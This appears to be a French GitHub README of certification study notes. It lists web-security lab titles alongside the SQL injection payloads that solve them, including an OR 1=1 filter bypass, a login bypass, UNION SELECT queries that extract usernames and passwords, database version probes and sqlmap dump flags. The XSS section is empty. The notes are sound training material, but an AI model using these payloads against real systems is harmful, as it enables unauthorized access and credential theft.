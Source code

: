 # Liste des commandes SQLi, XSS, CRCF ect.... pour passer la certification


## 1/ SQL injection

- [X] SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    `?category=Pets' OR 1=1 --`

- [X] SQL injection vulnerability allowing login bypass
    
    `csrf=ok13OxKIWATN6nuJiviRmIaPQBeSNtTB&username=administrator'--&password=test`
    

- [X] SQL injection UNION attack, determining the number of columns returned by the query

    `?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

- [X] SQL injection UNION attack, finding a column containing text

    `?category=Pets'+UNION+SELECT+NULL,'3QFtaD',NULL--`

- [X] SQL injection UNION attack, retrieving data from other tables

    `?category=Gifts'+UNION+SELECT+username,password+from+users--`

- [X] SQL injection UNION attack, retrieving multiple values in a single column

    `?category=Pets'+UNION+SELECT+NULL,CONCAT(username,'+',password)+FROM+users--`
   
- [X] SQL injection attack, querying the database type and version on Oracle

    `?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version--`

- [X] SQL injection attack, querying the database type and version on MySQL and Microsoft

    `?category=Gifts'+UNION+SELECT+@@version,+'a'#` # pour les commentaires en MySQL

- [X] SQL injection attack, listing the database contents on non-Oracle databases

    ```sqlmap -u URL
    
    --all #Retrieve everything
    
    --dump #Dump DBMS database table entries
    
    --dbs #Names of the available databases
    
    --tables #Tables of a database ( -D <DB NAME> )
    
    --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
    
    -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column```
    
    
- [ ] SQL injection attack, listing the database contents on Oracle

- [ ] Blind SQL injection with conditional responses

- [ ] Blind SQL injection with conditional errors

- [ ] Visible error-based SQL injection

- [ ] Blind SQL injection with time delays

- [ ] Blind SQL injection with time delays and information retrieval

- [ ] Blind SQL injection with out-of-band interaction

- [ ] Blind SQL injection with out-of-band data exfiltration

- [ ] SQL injection with filter bypass via XML encoding






## 2/ XSS
